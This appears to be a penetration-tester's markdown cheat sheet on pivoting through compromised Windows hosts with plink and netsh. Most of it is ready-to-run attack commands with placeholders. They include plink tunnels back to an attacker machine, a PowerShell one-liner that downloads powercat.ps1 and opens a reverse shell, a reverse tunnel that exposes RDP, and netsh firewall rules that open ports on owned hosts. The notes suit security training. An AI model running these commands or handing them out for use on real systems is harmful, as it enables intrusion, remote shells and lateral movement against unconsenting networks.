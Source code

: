 # Port Forwarding with Windows Tools

SSH utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`.
ssh.exe behaves as you'd expect.


## Plink

As we won't always have an openSSH client on windows hosts, it can be good to get an understanding of some alternatives.
PuTTY for the CLI.
It has similar features to openSSH, but without remote dynamic port forwarding.

If you are getting an error about algorithm choice when calling plink, consider getting a newer version from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).


### Local Port Forwarding

In the scenario where you have gained access to `SRV1` and you want to forward traffic from `SRV1` port 8000 to port 80 on your kali machine, you can do:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -L 0.0.0.0:8000:${ATTACKER_IP}:80 ${ATTACKER_IP} 
```

This way, if you later pivot to `SRV2` who cannot directly access your web server on your kali machine, you can call `${SRV1_IP}:${SRV1_PORT}` (port 8000 in this example),
to transfer files to `SRV2`.


If you want to combine the HTTP server with the capability to catch a reverse shell, you can do:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -L 0.0.0.0:${SRV1_SHELL_PORT}:${ATTACKER_IP}:${ATTACKER_SHELL_PORT} ${ATTACKER_IP} 
```

Now, trigger a powercat reverse shell from `SRV2`:

```
IEX(New-Object System.Net.WebClient).DownloadString('http://${SRV1_IP}:${SRV1_HTTP_PORT}/powercat.ps1');powercat -c ${SRV1_IP} -p ${SRV1_SHELL_PORT} -e powershell
```

### Remote Port Forwarding

assuming we have `plink.exe` available on the windows host, we can do remote port forwarding with:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_IP} 
```


(note the pipe command which answers `y` to the question about keys. The second time you do it, leave out the piping).
This can also be used to expose RDP:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:127.0.0.1:3389 ${ATTACKER_IP} 
```

Now, you can do the following from `${ATTACKER_IP}`:

```
xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:127.0.0.1:${LISTENING_PORT}
```
## Netsh

Native way of port forwarding from windows (requires admin permissions):
```
netsh interface portproxy add v4tov4 listenport=${OWNED_PORT0} listenaddress=${OWNED_IP0} connectport=${OWNED_PORT1} connectaddress=${OWNED_IP1}
```
If you ever need to add firewall rules to allow traffic to flow through a given port on Windows (also requires admin permissions):
```
netsh advfirewall firewall add rule name="port_forward_ssh_${OWNED_PORT0}" protocol=TCP dir=in localip=${OWNED_IP0} localport=${OWNED_PORT0} action=allow
```

